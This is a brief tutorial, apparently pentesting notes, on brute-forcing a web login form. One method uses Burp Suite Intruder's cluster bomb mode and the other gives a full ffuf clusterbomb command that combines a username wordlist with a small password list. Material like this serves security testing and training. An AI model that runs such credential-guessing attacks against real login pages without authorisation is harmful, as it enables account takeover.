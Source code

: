 ## Brute Force Login Page (Cluster Bomb With Burp Suite)

- username file : /usr/share/seclists/Usernames/top-usernames-shortlist.txt
- pass file : pass.txt

```
~ cat pass.txt

123456
password
password123
letmein

```

**Capture login request and send this request to burp intruder, then select attack type cluster bomp then highligt attacing value then select payloads and start attack**

![Image](/img/2023-11-07_08-52.png)

![Image](/img/2023-11-07_08-54.png)

![Image](/img/2023-11-07_08-55.png)

![Image](/img/2023-11-07_08-56.png)

![Image](/img/2023-11-07_08-57.png)

![Image](/img/2023-11-07_09-00.png)

## Brute Force Login Page (Cluster Bomb With ffuf)

Capture login request and edit attack points and save it

![Image](/img/2023-11-07_09-03.png)

then attack with ffuf

```
ffuf -request req.txt -request-proto http -mode clusterbomb -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZUSER -w pass.txt:FUZZPASSWORD -fs 3256,3356
```
